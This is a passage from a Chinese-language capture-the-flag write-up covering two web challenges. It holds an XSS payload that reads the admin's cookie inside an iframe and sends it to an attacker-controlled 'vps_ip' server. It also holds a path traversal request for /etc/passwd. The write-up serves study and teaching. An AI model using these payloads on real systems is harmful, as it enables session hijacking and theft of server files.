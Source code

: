 可以成功打回admin的cookie

```
http://vps_ip/?name=admin; page=index; token=UFqNJO02PZZmrBJbWVmeMcdvWnWo7gcL; show_text=QUVTMjU25piv5b6I5qOS55qE5Yqg5a+G566X5rOV77yMIEVDQuaooeW8j+W+iOWuueaYk+eQhuinow==; adminview=&lt;script&gt;
var i=document.createElement("iframe");
i.src="http://123.59.134.192/?user_search=admin";
i.id="a";
document.body.appendChild(i);
i.onload = function ()`{`
      var c=document.getElementById('a').contentWindow.document.cookie;
    location.href="http://vps_ip/?"+c;
`}`
&lt;/script&gt;
```

奇葩的是，我用这个token和name进行cookie更改，竟然无法成为admin？？？？<br>
我向客服反映了这个问题后，再用同样的payload，就再也收不到admin的cookie了??<br>
我是真的懵逼+服气，更何况这里第一次收到的admin的cookie里还有我的原封payload呀！<br>
所以导致这个题我最终没能成功破解，真的难受<br>
(此题是全场唯一一个0血的题目，我严重怀疑环境问题)<br>
后来官方给出了后续思路为:<br>
这题需要结合身份证号前六位和籍贯相关，加上出生年月，爆破剩下的位数<br>
再结合我打回的cookie的管理员信息

```
QUVTMjU25piv5b6I5qOS55qE5Yqg5a+G566X5rOV77yMIEVDQuaooeW8j+W+iOWuueaYk+eQhuinow==
```

即AES256是很棒的加密算法， ECB模式很容易理解<br>
应该是要我们爆破AES的key把。。。后续我也不再复现了，应该只是爆破时间问题



### <a class="reference-link" name="biubiubiu"></a>biubiubiu

这个题还挺有意思的<br>
首先上来是一个登陆页面，随便就能登入<br>
只要用户名符合email格式，例如

```
1@1
1
```

即可登入<br>
登入后发现链接

```
http://ecbedb39ad3a4d4c9fc437bc175e8f6d55ecf72506af43a0.game.ichunqiu.com/index.php?page=send.php
```

先尝试读文件

```
http://ecbedb39ad3a4d4c9fc437bc175e8f6d55ecf72506af43a0.game.ichunqiu.com/index.php?page=../../../../etc/passwd
```
